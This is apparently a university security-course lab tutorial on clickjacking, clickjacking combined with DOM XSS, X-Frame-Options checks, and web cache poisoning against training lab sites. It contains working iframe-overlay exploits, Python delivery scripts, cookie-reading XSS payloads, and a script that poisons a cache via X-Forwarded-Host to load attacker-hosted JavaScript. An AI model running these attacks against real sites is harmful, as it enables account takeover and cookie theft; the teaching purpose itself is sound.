









Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. Clickjacking is similar to CSRF in that the victim must visit a malicious site that has the embedded URL of the vulnerable site which triggers the exploit. Unlike CSRF, the victim must click on the exploit link in order to trigger it. This is done via CSS that overlays visual content on top of the legitimate site's content. The legitimate site is loaded as an <iframe> within the malicious site. Then, to trick the victim, the <iframe> is made transparent by configuring its opacity to be nearly transparent within CSS. Thus, although the content is there, the victim can not see it. Note that since the malicious site is actually retrieving the content from the vulnerable site, the CSRF token mechanism can not prevent this attack.
To demonstrate this attack, visit the lab site. As before, you are given the credentials of a user on the site (wiener / peter). Log in as this user, then navigate the menus to bring up the "My account" page that contains a button that deletes the user's account. Copy the URL for this page. This is the URL we will be loading up in an <iframe> on the exploit site.

iframe>Now, visit the exploit server. We are given the ability to craft a page that overlays a UI element on top of this page above. By making the element enticing (e.g. via text that says "Click me"), we can trick the victim to click through to the <iframe> and cause the victim to initiate an account deletion. We will now construct the exploit. Consider the CSS below:
<style>
iframe {
position: relative;
width: 700px;
height: 700px;
opacity: 0.1;
z-index: 2;
}
div {
position: absolute;
top: 300px;
left: 60px;
z-index: 1;
}
</style>It constructs a style for the <iframe> with particular dimensions and a low opacity. This will load the vulnerable page up so we can faintly see it in the background. In a real attack, the opacity would be set to something much smaller to make the vulnerable page completely invisible to the victim. It then constructs a style for the <div> that places the element in a particular location in order to cause the content of the <div> to fall right on top of the "Delete account" element of the underlying <iframe> from the vulnerable site. The CSS is followed by the HTML which instantiates the content. Fill it in based on the URL of the page that contains the "Delete account" button. The HTML instantiates the text "Click me" that will appear right over the "Delete account" of the <iframe>. Go to the exploit server for the lab and paste in your exploit after filling in the URL in the <iframe>.
<div>Click me</div>
<iframe src="https://{site}/<FMI>"></iframe>
Since the opacity is set to a low value, when you "Store" the exploit and then "View exploit", you should get something that looks like below with the "Click me" text clearly seen and the underlying <iframe> barely visible.

While we can now go back to the exploit server and "Deliver exploit to victim" to complete the level, we can also do so via Python by performing a "DELIVER_TO_VICTIM" formAction using the exploit HTML (filling in the width and height attributes of the <iframe> with your calculated ones). Note that within the Python script, the double curly braces is used in an f-string in order to specify a literal curly brace that is not interpreted as a format string parameter.
s = requests.Session()
site_url = f'https://{site}/'
resp = s.get(site_url)
soup = BeautifulSoup(resp.text,'html.parser')
exploit_url = soup.find('a', {'id':'exploit-link'}).get('href')
exploit_html = f'''<style>
iframe {{
position:relative;
width: <FMI>px;
height: <FMI>px;
opacity: 0.3;
z-index: 2;
}}
div {{
position:absolute;
top:530px;
left:60px;
z-index: 1;
}}
</style>
<div>Click me</div>
<iframe src="https://{site}/<FMI>"></iframe>
'''
formData = {
'urlIsHttps': 'on',
'responseFile': '/exploit',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8',
'responseBody': exploit_html,
'formAction': 'DELIVER_TO_VICTIM'
}
resp = s.post(exploit_url, data=formData)One of the targets for a clickjacking attack is a user's identity and account information. For example, changing an account's e-mail address can allow an attacker to hijack a victim's account.
Begin by logging in with the given credentials on the lab site. Then, visit the "My account" page to view its e-mail change form. Then, using the prior level's exploit script, change its formAction to "STORE" and upload the prior level's solution to the exploit server. Then visit the exploit server and "View exploit". Note that the transparent <iframe> contains the form, but doesn't have an address filled in. Even if we properly aligned the "Click me" and "Update email" buttons, nothing would happen when the victim clicks.
Form values can be optionally prefilled if given the appropriate parameters either within the form itself or via URL parameters. Inspect the form in Developer Tools to view the form:
value?Examine the URL of the page. As the URL shows, a URL parameter named id is given with a value set to the account's username. Change the id parameter in the URL to the email parameter in the form and set its value to your e-mail address. You should see that the form has been prefilled with your e-mail address.
Go back to your exploit and change the URL of its <iframe> to be the URL that prefills the form with your email address. Store the exploit then visit the exploit server and "View exploit"
iframe> has been prefilled similar to below
Finally, modify the pixel offsets for the "Click me" button in your exploit to align it with the "Update email" button, then deliver the exploit to the victim to solve the level.
Access the site and visit the "Submit feedback" page. Fill in the form with your name, e-mail address and a subject and message of your choice. As the results show, the name field of the form is used to update the DOM with a message of thanks. Right-click the message and Inspect it in Developer Tools.
Below the form, a Javascript file has been included that handles the feedback submission function. Bring this file up in the Sources tab of Developer Tools and examine its source code. The first part of the script registers an event listener for when the button to submit the form has been pressed. The listener invokes the submitFeedback() function that follows it.

Examine the submitFeedback() function.
Examine the function that is executed when a page has been loaded. The function gets a reference to the HTML element obtained earlier and modifies its content.
Go back to the feedback form and exploit the XSS vulnerability by injecting an HTML heading (e.g. <h1>) containing your OdinId into the page as shown below:

As with the prior level, the form itself can be prefilled with values that are passed to it via URL parameters. To demonstrate this, fill in the parameters within the feedback URL with your HTML header injection and e-mail address. Then, bring it up in a web browser to see the form pre-filled. Submit the form to ensure you obtain the results above.
feedback?name=<FMI>&email=<FMI>@pdx.edu&subject=foo&message=bar
As in the prior level, if this page were brought up in a transparent <iframe> and an enticing button were overlaid on top of the "Submit feedback" button, a victim tricked into clicking the button would submit the form.
While perhaps fun, injecting an HTML element is not particularly useful. Adversaries will instead leverage such vulnerabilities to inject and execute Javascript code. Repeat the exploit above using the payload below:
<script>alert(1)</script>Inspect the resulting page and answer the questions below:
Another way of getting Javascript to execute is to include it in event attributes of an HTML tag. As shown in prior XSS levels, the <img> tag below attempts to load a bogus image and then registers Javascript code to execute onerror that will pop up a window that includes the client's cookie for the site.
<img src=1 onerror=alert(document.cookie)>Using this payload, craft a feedback URL that pre-fills the feedback form's fields with this exploit. Ensure that, when the "Submit feedback" link is clicked, you obtain the pop-up.
Using the URL you have developed, include it as the <iframe> URL within the exploit_html below. Then, using the prior scripts, STORE it on the exploit site.
exploit_html = f'''<style>
iframe {{
position: relative;
width: 700px;
height: 1000px;
opacity: 0.3;
z-index: 2;
}}
div {{
position: absolute;
top: 100px;
left: 100px;
z-index: 1;
}}
</style>
<div>Click me</div>
<iframe src="<FMI>"></iframe>
'''Go to the exploit server and "View exploit"
Finally, modify the pixel locations of the "Click me" element to land on top of the "Submit feedback" button and then DELIVER_TO_VICTIM, in order to solve the level.
For the exercises below, show screenshots of the errors
nc -C to connect to google.com and download its landing page. echo -en "GET / HTTP/1.0\n\n\n" | nc -C www.google.com 80)X-Frame-Options: header.iframe> that attempts to place Google's homepage into itself.<html><body><iframe src="https://www.google.com" width="800" height="800"></iframe></body></html>
nc -C to connect to oregonctf.org and download its landing page. X-Frame-Options: header?iframe> that attempts to place OregonCTF's homepage into itself.<html><body><iframe src="https://oregonctf.org" width="800" height="800"></iframe></body></html>
Bring up Developer Tools and access the main landing page. Inspect the page, bring up the "Network" tab, and then click on "Reload". The initial landing page is cacheable and the HTTP response headers that are returned indicate the age of the page, the maximum age of the page, and whether or not the request hit or missed in the cache.
When the age of the page reaches the maximum age, a subsequent reload on the main landing page will result in a cache miss, resetting the age of the cached page to 0. Wait until the page expires and reload the page until you obtain a cache miss.
Click on the "Elements" tab in the Developer Tools and find the <script> tag for a tracking script that immediately follows the initial <body> tag. Note that it includes the web site's name in its URL.

The X-Forwarded-Host: header denotes the original destination the user is attempting to access. However, the user can lie about this and inject a bogus hostname. If this hostname is included in the response, such as the URL of the tracking script, an adversary can poison it for subsequent users. A Python script can set the X-Forwarded-Host: header to a bogus value, and if that value appears back in the response, the response will be cached for other uses, effectively poisoning the landing page. Fill in the header value in the script with your OdinId (e.g. in my case wuchang.net) and run the script until you get a cache miss and then print out the script tag to indicate the page has been poisoned.
s = requests.Session()
site_url = f'https://{site}'
headers = {
'X-Forwarded-Host' : f'{OdinId}.net'
}
resp = s.get(site_url, headers=headers)
if resp.headers['X-Cache'] == 'miss':
soup = BeautifulSoup(resp.text,'html.parser')
script_src = soup.find('script')
print(f'Poisoned script tag is {script_src}')Quickly reload the page in a web browser and view its HTML. See that the poisoned page has been cached and returned.

We can now perform the exploit. As before, we're given an exploit site to host our malicious tracking script. We'll place the code 'alert(document.cookie)' at https://{exploit_site}/resources/js/tracking.js.
resp = s.get(site_url)
exploit_url = soup.find('a', {'id':'exploit-link'}).get('href')
exploit_site = urllib3.util.parse_url(exploit_url).host
exploit_html = 'alert(document.cookie)'
formData = {
'urlIsHttps': 'on',
'responseFile': '/resources/js/tracking.js',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8',
'responseBody': exploit_html,
'formAction': 'STORE'
}
resp = s.post(exploit_url, data=formData)Then, when accessing the main landing page, we can set the X-Forwarded-Host: header to point to the exploit_site to poison the cached landing page. Because we must time our poisoning attempt to occur right when the current cached copy expires, we can perform an initial request, examine its age, then wait until it expires to poison the cache. Adapt the code below to solve the level.
headers = {
'X-Forwarded-Host' : exploit_site
}
while True:
resp = s.get(site_url, headers=headers)
if resp.headers['X-Cache'] == 'miss':
print(f'Poisoned (miss): {resp.headers}')
break
timeleft = 30 - int(resp.headers['Age'])
print(f'Waiting {timeleft} to expire cache')
time.sleep(timeleft)